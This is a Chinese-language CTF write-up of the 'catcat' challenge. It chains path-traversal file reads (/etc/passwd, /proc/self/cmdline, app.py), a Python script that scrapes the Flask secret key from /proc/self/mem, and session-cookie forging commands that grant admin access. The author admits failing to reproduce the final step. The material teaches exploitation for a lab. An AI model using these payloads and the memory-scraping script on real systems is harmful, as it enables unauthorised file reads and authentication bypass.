


题目描述：
catcat
题目解题：
进入首页随便点击一个图片，看到url如图，猜测就是文件包含了，测试了半天没啥头绪，还是看wp吧。。。
看了之后发现这是不会的点，那我们认真学习一番
文章说：一道有关任意文件读取，Linux敏感文件，flask-session伪造的题目
先看基础知识
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
| 1./etc/passwd
该文件储存了该Linux系统中所有用户的一些基本信息，只有root权限才可以修改。其具体格式为 用户名:口令:用户标识号:组标识号:注释性描述:主目录:登录Shell（以冒号作为分隔符）
2./proc/self
proc是一个伪文件系统，它提供了内核数据结构的接口。内核数据是在程序运行时存储在内部半导体存储器中的数据。通过/proc/PID可以访问对应PID的进程内核数据，而/proc/self访问的是当前进程的内核数据。
3./proc/self/cmdline
该文件包含的内容为当前进程执行的命令行参数。
4./proc/self/mem
/proc/self/mem是当前进程的内存内容，通过修改该文件相当于直接修改当前进程的内存数据。但是注意该文件不能直接读取，因为文件中存在着一些无法读取的未被映射区域。所以要结合/proc/self/maps中的偏移地址进行读取。通过参数start和end及偏移地址值读取内容。
5./proc/self/maps
/proc/self/maps包含的内容是当前进程的内存映射关系，可通过读取该文件来得到内存数据映射的地址。
6.flask-session结构
flask_session是flask框架实现session功能的一个插件。其session结构分为三部分：序列化内容+时间+防篡改值，这三部分内容加密后以符号 “.”来进行分隔。flask_session默认session的储存是在用户Cookie中。但也可以指定存储在数据库，缓存中间件，服务器本地文件等等之中。
|
输入该payload：?file=../../../etc/passwd，确实存在漏洞

读取当前进程的命令行参数。?file=../../../../proc/self/cmdline，发现有一个通过python启动app.py的命令。 所以可以得出该网站使用Python框架，并且因为有app.py可知使用的是flask框架。
尝试读取app.py文件。
复制文本内容，将字符串f-string格式化输出美化一下。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
| import os
import uuid
from flask import Flask, request, session, render_template, Markup
from cat import cat
flag = ""
app = Flask(
__name__,
static_url_path='/',
static_folder='static'
)
app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "") + "*abcdefgh"
if os.path.isfile("/flag"):
flag = cat("/flag")
os.remove("/flag")
@app.route('/', methods=['GET'])
def index():
detailtxt = os.listdir('./details/')
cats_list = []
for i in detailtxt:
cats_list.append(i[:i.index('.')])
return render_template("index.html", cats_list=cats_list, cat=cat)
@app.route('/info', methods=["GET", 'POST'])
def info():
filename = "./details/" + request.args.get('file', "")
start = request.args.get('start', "0")
end = request.args.get('end', "0")
name = request.args.get('file', "")[:request.args.get('file', "").index('.')]
return render_template("detail.html", catname=name, info=cat(filename, start, end))
@app.route('/admin', methods=["GET"])
def admin_can_list_root():
if session.get('admin') == 1:
return flag
else:
session['admin'] = 0
return "NoNoNo"
if __name__ == '__main__':
app.run(host='0.0.0.0', debug=False, port=5637)
|
以上就是app.py的代码
flask_session的伪造需要用到secret_key，而secret_key的值可以通过内存数据获取。先读取/proc/self/maps文件获取可读内容的内存映射地址。
执行破解脚本
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
|
import requests
import re
import ast, sys
from abc import ABC
from flask.sessions import SecureCookieSessionInterface
url = "http://61.147.171.105:62610/"
if sys.version_info[0] < 3:
raise Exception('Must be using at least Python 3')
class MockApp(object):
def __init__(self, secret_key):
self.secret_key = secret_key
class FSCM(ABC):
def encode(secret_key, session_cookie_structure):
try:
app = MockApp(secret_key)
session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
si = SecureCookieSessionInterface()
s = si.get_signing_serializer(app)
return s.dumps(session_cookie_structure)
except Exception as e:
return "[Encoding error] {}".format(e)
raise e
s_key = ""
bypass = "../.."
map_list = requests.get(url + f"info?file={bypass}/proc/self/maps")
map_list = map_list.text.split("\\n")
for i in map_list:
map_addr = re.match(r"([a-z0-9]+)-([a-z0-9]+) rw", i)
if map_addr:
start = int(map_addr.group(1), 16)
end = int(map_addr.group(2), 16)
print("Found rw addr:", start, "-", end)
res = requests.get(f"{url}/info?file={bypass}/proc/self/mem&start={start}&end={end}")
if "*abcdefgh" in res.text:
secret_key = re.findall("[a-z0-9]{32}\*abcdefgh", res.text)
if secret_key:
print("Secret Key:", secret_key[0])
s_key = secret_key[0]
break
|
有了secret_key后接下来就是伪造session，session在访问/admin路径时的cookie中。session为eyJhZG1pbiI6MH0.ZNzhIg.Z7MhkPlaNm3hajdIBv_AEL995xo

使用工具flask_session_cookie_manager伪造session。使用方法为：
1
2
| 解密 python flask_session_cookie_manager3.py decode -s “secret_key” -c “session”
加密 python flask_session_cookie_manager3.py encode -s “secret_key” -t “data”
|
执行如下payload
1
2
3
4
5
| python flask_session_cookie_manager3.py decode -s "bd07849f5c4e4359843eb39758e389f0*abcdefgh" -c "eyJhZG1pbiI6MH0.ZNznXw.gl2UUGVxRJ7z7FgWD-jlsS_ETPE"
python flask_session_cookie_manager3.py encode -s "bd07849f5c4e4359843eb39758e389f0*abcdefgh" -t "{'admin': 1}"
python flask_session_cookie_manager3.py encode -s “bd07849f5c4e4359843eb39758e389f0*abcdefgh” -t “{'admin': 1}”
|

得到伪造的session，使用burpsuite更改session并执行，得到flag。
这里不知为何，我认为我步骤一样的，但是复现不出来，最后找了一个一把梭的脚本，依旧是nonono，因而不纠结了，知道思路即可
上述脚本也是只能看懂，根本不会写。。。。只希望未来不在是脚本小子了
知识总结：
flask_session伪造
伪造原理
flask的session是存储在客户端cookie中的，而且flask仅仅对数据进行了签名。众所周知的是，签名的作用是防篡改，而无法防止被读取。而flask并没有提供加密操作，所以其session的全部内容都是可以在客户端读取的，这就可能造成一些安全问题。
通常情况下会和SSTI知识点同步考察。
利用方式
我们可以用python脚本把flask的session解密出来，但是如果想要加密伪造生成我们自己的session的话，还需要知道flask用来签名的SECRET_KEY
加解密脚本自取：
https://github.com/noraj/flask-session-cookie-manager
使用方法
1
2
3
4
| python2 脚本2.py decode -c "session值" -s "key值"
python2 脚本2.py encode -s "key值" -t "我们需要伪造的值"
python3 脚本3.py decode -c "session值" -s "key值"
python3 脚本3.py encode -s "key值" -t "我们需要伪造的值"
|
所需要注意的地方就是python的版本不同所对应的脚本也不相同。
Flask的session格式
base64加密的Session数据(经过了json、zlib压缩处理的字符串) . 时间戳 . 签名
时间戳用来告诉服务端数据最后一次更新的时间，超过31天的会话，将会过期，变为无效会话；签名是利用Hmac算法，将session数据和时间戳加上secret_key加密而成的，用来保证数据没有被修改。
由上文所述的session格式可知，要修改并伪造一个session的必要条件就是知道加密所采用的secret_key，一旦获取到secret_key, 我们就可以轻松的构造签名，从而实现客户端的session的伪造。
文章参考：
参考一
参考二
参考三